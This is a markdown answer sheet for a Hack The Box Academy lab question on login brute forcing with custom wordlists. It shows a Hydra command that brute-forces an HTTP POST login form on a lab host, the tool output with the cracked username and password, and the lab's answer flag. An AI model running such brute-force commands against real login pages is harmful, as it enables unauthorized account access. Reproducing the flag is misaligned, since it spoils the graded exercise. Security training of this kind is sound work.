

# Section 11: Custom Wordlists

Module: 16. Login Brute Forcing

---

## Questions & Answers

### 1. After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Context:
- Brute-force the password:
```bash
┌─[eu-academy-2]─[10.10.14.91]─[htb-ac-2162140@htb-hfzkdvfmgy-htb-cloud-com]─[~/username-anarchy]
└──╼ [★]$ hydra -L jane_smith_usernames.txt -P jane-filtered.txt 154.57.164.66 -s 31880 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-09-07 04:46:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 111286 login tries (l:14/p:7949), ~6956 tries per task
[DATA] attacking http-post-form://154.57.164.66:31880/:username=^USER^&password=^PASS^:Invalid credentials
[31880][http-post-form] host: 154.57.164.66   login: jane   password: 3n4J!!
[STATUS] attack finished for 154.57.164.66 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-09-07 04:46:35
```


**Answer:** `HTB{W3b_L0gin_Brut3F0rc3_Cu5t0m}`

---

[Back to Module Index](./README.md)
